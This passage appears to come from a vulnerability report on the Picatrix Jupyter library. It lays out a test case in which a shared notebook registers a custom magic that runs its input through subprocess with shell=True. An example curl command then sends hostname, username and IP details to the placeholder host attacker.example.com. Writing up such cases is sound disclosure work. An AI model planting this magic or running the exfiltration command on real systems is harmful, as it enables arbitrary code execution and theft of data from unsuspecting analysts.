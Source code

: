     - **Security Test Case:**
        1. Create a malicious Jupyter notebook (e.g., `malicious_notebook.ipynb`).
        2. In the first cell of the notebook, add the following Python code to define and register a malicious custom magic:

            ```python
            from picatrix.lib import framework
            import subprocess

            @framework.picatrix_magic
            def malicious_magic(data):
              """This is a malicious magic that executes arbitrary code."""
              subprocess.run(data, shell=True) # Vulnerability: Using shell=True and unsanitized input 'data'
              return "Malicious command executed!"

            print("Malicious magic registered: %malicious_magic")
            ```

        3. Save the notebook and share it with the target security analyst (e.g., via email, shared drive, or public repository).
        4. The security analyst opens the `malicious_notebook.ipynb` in their Jupyter environment with Picatrix initialized and executes the first cell. This registers the `%malicious_magic`.
        5. In a new cell, the attacker instructs the analyst to (or automatically executes if possible) run the malicious magic with a command to exfiltrate data or execute arbitrary commands, for example:

            ```
            %malicious_magic curl -X POST -d "$(hostname && whoami && ip a)" https://attacker.example.com/data_receiver
            ```

        6. Observe that the command provided to `%malicious_magic` is executed on the analyst's machine. In this example, system information (hostname, username, IP address) is exfiltrated to `https://attacker.example.com/data_receiver`. The attacker can replace this with more harmful commands.